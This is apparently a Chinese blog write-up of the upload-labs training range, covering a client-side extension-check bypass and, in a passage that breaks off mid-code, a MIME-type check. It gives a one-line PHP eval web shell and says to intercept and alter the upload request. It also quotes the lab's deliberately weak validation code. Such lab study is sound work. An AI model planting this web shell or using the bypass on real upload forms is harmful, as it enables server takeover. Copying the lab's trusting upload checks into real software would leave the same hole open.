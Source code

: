 ```yaml
---
title: upload-labs
date: 2020-04-16 23:29:45
updated: 2020-04-16 23:29:45
categories: Write up
---
```


文件上传漏洞

# Pass-01

## 考察点：前端绕过



发现上传.php文件时，alert:`该文件不允许上传，请上传.jpg|.png|.gif,当前文件类型为:php`,这表明验证点在前端(js)，而不在服务端.

F12找找js源码，整理如下：

```

function checkFile() {
var file = document.getElementsByName('upload_file')[0].value;
if (file == null || file == "") {
	alert("请选择要上传的文件!");
	return false;
}
//定义允许上传的文件类型
var allow_ext = ".jpg|.png|.gif";
//提取上传文件的类型
var ext_name = file.substring(file.lastIndexOf("."));
//判断上传文件类型是否允许上传
if (allow_ext.indexOf(ext_name) == -1) {
	var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
	alert(errMsg);
	return false;
}
}

```

直接修改js代码或者上传一个有一句话木马`<?php @eval($_POST[value]);?>`的符合题目后缀要求的文件，抓包修改请求内容绕过，蚁剑链接



# Pass-02

## 考察点：服务器端MIME绕过

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') 
          || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
```